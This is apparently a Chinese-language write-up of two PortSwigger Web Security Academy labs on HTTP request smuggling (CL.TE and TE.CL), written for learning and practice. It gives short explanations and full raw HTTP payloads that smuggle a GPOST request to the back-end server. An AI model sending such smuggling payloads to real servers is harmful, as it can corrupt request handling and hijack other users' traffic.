 ### 1. HTTP request smuggling, basic CL.TE vulnerability

> To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

这个挺简单的，就是加上`Transfer-Encoding: chunked`，让后端用这个进行解析。

当读到0的时候就结束了，后面加上标头。

我一开始最后只打了一个空行，一直不行，估计是把后面的`GET`请求加上了。

最后连续打了三个空行，就过了。

```http
POST /post/comment HTTP/1.1
Host: acfb1fff1fec7dc080e2256c005b00a0.web-security-academy.net
Connection: close
Cookie: session=ttdVklYoSFmf0FJjnW6LvMQi0MePFZSM
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Transfer-Encoding: chunked

0

GPOST /post/comment HTTP/1.1



```

官方的paylaod最后只有一个`G`，想的是用`G`加上后面的`POST`去凑出`GPOST`。

### 2. HTTP request smuggling, basic TE.CL vulnerability

> To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

直接上payload:

```http
POST /post/comment HTTP/1.1
Host: ac8f1f9a1f601a6f80e6035e0004004c.web-security-academy.net
Connection: close
Content-Length: 4 /* 10进制 */
Content-Type: application/x-www-form-urlencoded
Cookie: session=ovzJvUNqsXyuecb7R0vM91Ms2eCDiV5t
Transfer-Encoding: chunked

15 /* 16进制 */
GPOST / HTTP/1.1

x
0


```
